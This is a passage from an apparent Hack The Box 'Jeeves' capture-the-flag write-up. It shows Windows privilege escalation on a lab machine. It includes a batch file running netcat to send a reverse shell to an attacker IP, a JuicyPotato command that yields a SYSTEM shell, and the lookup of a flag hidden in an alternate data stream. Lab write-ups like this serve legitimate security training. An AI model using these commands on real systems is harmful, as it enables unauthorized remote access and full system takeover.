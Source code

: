 I created a bat file that executes nc and give me another shell.
```
C:\Users\kohsuke\Downloads>echo C:\Users\kohsuke\Downloads\nc.exe -e cmd.exe 10.10.14.12 3333 > rev.bat
echo C:\Users\kohsuke\Downloads\nc.exe -e cmd.exe 10.10.14.12 3333 > rev.bat
```


Then I ran `JuicyPotato` and it executes `bat` file 
```
C:\Users\kohsuke\Downloads>juicypotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
juicypotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 3333
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\kohsuke\Downloads>
```

It worked and I got shell as `nt authority\system`[br/](br/)
![02dc22dc81065e2fe4c3984bd1e8b881.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/111e7f1413c14d8589badc5db005068e.png)


When I tried to get Root Flag and it hidden.
```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    [DIR](DIR)          .
11/08/2017  10:05 AM    [DIR](DIR)          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,534,071,808 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```


To see files with an alternate data stream do a `dir /R`
```
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    [DIR](DIR)          .
11/08/2017  10:05 AM    [DIR](DIR)          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
```
